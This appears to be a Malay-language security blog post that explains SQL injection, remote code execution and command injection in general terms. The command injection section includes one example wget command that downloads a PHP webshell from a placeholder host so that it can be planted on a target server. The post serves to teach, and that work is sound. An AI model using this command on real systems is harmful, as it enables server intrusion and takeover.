 ```yaml
---
layout: post
title: "Mengejes Web Series: Critical Vulnerability Level"
categories: Mengejes-Web-Series
permalink: /critical-vulnerability-level-mengejes-web-series
published: true
---
```


![header](/assets/pictures/Comp_1_1.gif)
### Jenis-jenis web (OWASP Top 10) vulnerability
 Setiap vulnerability berlaku dalam pelbagai senario serta kesan yang berbeza. Oleh itu, setiap vulnerability yang wujud akan dikelaskan dalam 4 peringkat iaitu low, medium, high dan critical.

---
![sqli](/assets/pictures/SQL-injection-attack-example.png)
### SQL Injection
 SQL Injection merupakan web vulnerability yang membolehkan hackers untuk mengganggu queries atau pertanyaan yang dibuat oleh web application ke pangkalan data. Secara umumnya, segala data yang dipaparkan pada frontend atau halaman web diambil dari backend iaitu pangkalan data sesebuah website. Namun, hacker dapat memanipulasi proses penghantaran dan penerimaan queries untuk melihat data sensitif yang susah untuk kita dapatkan. Antara data yang mereka boleh dapatkan termasuk maklumat pengguna seperti username,password,telephone no, address dan lain-lain.

---

![RCE](/assets/pictures/RCE.png)
### Remote Code Execution
 Remote Code Execution (RCE) merupakan vulnerability yang sangat bahaya kepada sesebuah web application kerana hacker dapat memasukkan malicious code ke dalam server. Malicious code tersebut dimasukkan melalui titik input yang mereka jumpai seperti ‘kotak search’. Setelah itu server akan execute command yang diarahkan oleh hacker tanpa sengaja. Lantas, mereka dapat mengakses masuk ke dalam server. Secara umumnya, RCE berlaku disebabkan oleh source code, library files, dan plugins yang diambil dari pihak ketiga. Dalam kata lain, source code yang diambil itu tidak dibersihkan atau protected.

---

![Command-Injection](/assets/pictures/command%20injection.png)
### Command Injection
 Command injection dan RCE mempunyai persamaan dalam mendapatkan output dari server. Namun, kedua-dua vulnerability tersebut adalah berbeza mengikut senario. Command injection juga dikenali sebagai shell injection dan os command injection. Command injection merupakan vulnerability yang membolehkan hacker untuk memasukkan arbitrary command ke atas host operating system.

 ```bash
 Wget --no-check-certificate --content-disposition https://example.com/MARIJUANA.php
 ```

 ke atas host operating system melalui titik input untuk memasukkan webshell ke dalam server. Tambahan lagi, server akan memberi output kepada hacker dengan menganggap hacker tersebut merupakan webmaster.
